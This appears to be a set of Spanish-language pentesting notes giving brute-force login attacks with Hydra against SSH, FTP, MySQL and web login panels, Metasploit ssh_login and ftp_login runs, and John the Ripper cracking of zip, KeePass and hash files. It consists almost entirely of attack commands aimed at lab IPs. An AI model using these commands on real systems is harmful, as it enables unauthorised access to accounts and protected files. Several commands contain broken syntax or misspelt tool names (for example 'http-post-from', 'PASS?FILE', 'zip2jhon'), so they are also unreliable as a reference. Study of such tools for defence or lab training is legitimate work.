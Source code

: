 Hydra es una herramienta para hacer ataques de fuerza bruta

Es necesario conocer o la contraseña o el usuario.
## Hydra conociendo el usuario

```sh title:"hydra para localizar contraseñas"
 hydra -l <usuarioconocido> -P {rutal al diccionario}://{protocolo}{IP}
 
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# rockyou path: (diccionario para passroeds)
# /usr/share/wordlists/rockyou.txt

# protocolo
ssh
ftp

# ejemplos
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.27
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.27

```


## hydra conociendo la password
Cuando tenemos una contraseña pero desconocemos el usuario podemos usar Hydra para fuerza bruta:
```sh title:"hydra para localizar Usuarios"
 hydra -L {rutal al diccionario} -p <passwordUsuario>://{protocolo}{IP}
 
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
ssh
ftp

# ejemplos
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://192.168.0.27
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://192.168.0.27

```


## hydra a panel login
Uso de Hidra en Paneles Login
Probar con el usuario admin

con Burtsuit podemos conocemos la ruta exacta del panel login
la forma de tramitar los datos y el typo de peticion

```sh title:"hydra para panelos login"
 hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt http-post-from "{paht del panel login}:username=admin:passwore=^PASS^: {mensaje de error de panel login en caso de fallo}"
# t 64 poner 64 hilos
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
ssh
ftp

# ejemplos
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://192.168.0.27
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://192.168.0.27

```


# Fuerza bruta con Metasploit
con Metasploit tamiben se puede hacer  fuerza bruta igual que con Hydra
Indicar que esto es más lento que Hydra

```sh title:"metaesploit para fuerza bruta pfr ssh"
msf6 > serch ssh_login
msf6 > use 0
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME juan
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS?FILE /user/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOST {IP maquina victima}
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false

msf6 auxiliary(scanner/ssh/ssh_login) > run
```



Tambien lo podemos hacer con el protocolo FTP

```sh title:"metaesploit para fuerza bruta por ftp"
msf6 > serch ftp_login
msf6 > use 0
msf6 auxiliary(scanner/ftp/ftp_login) > show options
msf6 auxiliary(scanner/ftp/ftp_login) > set USERNAME juan
msf6 auxiliary(scanner/ftp/ftp_login) > show options
msf6 auxiliary(scanner/ftp/ftp_login) > set PASS?FILE /user/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOST {IP maquina victima}
msf6 auxiliary(scanner/ftp/ftp_login) > show options
msf6 auxiliary(scanner/ftp/ftp_login) > set VERBOSE false

msf6 auxiliary(scanner/ftp/ftp_login) > run
```


# Fuerza bruta a Base de datos
Puerto de Mysql: 3306

si tenemos un potencial Usuario:
```sh title:"hydra para atacar a BD Mysql"
 hydra -t 64 -l {usuarioconocido}} -P /usr/share/wordlists/rockyou.txt mysql://{ipmaquina target}
# t 64 poner 64 hilos
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
mysql

# ejemplos


```



# Jhon the Ripper
Jhon the ripper mos permite hacer cracking de archivos en local, para zip, keepas o cracking the hases basicamente sirve para hacer craking de ficheros en local


## crackear un fichero protegido
Crackear la contraseña de un fichero zip.
```sh title:"Jhon the ripper para crackear un zip, en 2 pasos, primero hash y despues creckear el has"
 zip2jhon {nombreArchivo} > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## crackar un keepass DB
Crackear la contraseña de un keepass (kdbx)
```sh title:"Jhon the ripper para crackear un la BD de un keepass, en 2 pasos, primero hash y despues creckear el hash"
keepass2jhon {nombrefichero.kdx} >hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## Crackear hash
Crackear un hash

```sh title:"Jhon the ripper para crackear un hash"
john --wordlist=/usr/share/wordlists/rockyou.txt hash
jhon --format =Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash

# el format te lo da el propio jhon y el formato lo sacamos del hashIdentifier
# md5
# sha1
# ...
```

